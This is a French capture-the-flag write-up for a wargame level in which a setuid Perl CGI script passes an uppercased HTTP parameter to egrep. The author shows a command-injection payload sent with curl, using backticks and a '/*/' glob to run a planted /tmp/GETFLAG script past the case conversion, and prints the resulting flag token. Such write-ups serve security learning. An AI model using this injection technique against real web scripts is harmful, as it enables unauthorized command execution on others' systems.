 # Level 12

Home structure
```
$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

Comme le script dans level 04, le script récupère les paramètres `x` et `y` d'une requête HTTP, exécute la commande système `egrep` pour rechercher dans le fichier `/tmp/xd` en utilisant la valeur de `x` en ayant mis toutes les lettres en majuscules avant, puis affiche des points en fonction des résultats de la recherche et de la valeur de `y`. Le nombre de points affichés dépend de la correspondance trouvée et de la valeur de `y`.

Ce qui voudrait dire qu'on pourrait executer n'importe quel commandes via le paramètre `x`.

On pourrait tous simplement essayer: `curl localhost:4646/level12.pl?x='${getflag}'`, mais on va que le script va rendre le paramètre X tous en maj. Donc ce qui nous fait `${GETFLAG}` et la commande `GETFLAG` n'existe pas. Alors ce qui faudrait faire c'est le créer.

```
$ echo "getflag | wall" > /tmp/GETFLAG
$ chmod 777 /tmp/GETFLAG
$ curl localhost:4646/level12.pl?x='`/*/GETFLAG`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
On est malheureusement obligé de mettre le `/*/` pour compléter le path sans mettre de minuscule (`/tmp/` va se transformer en `/TMP/` ce qui n'existe pas.)
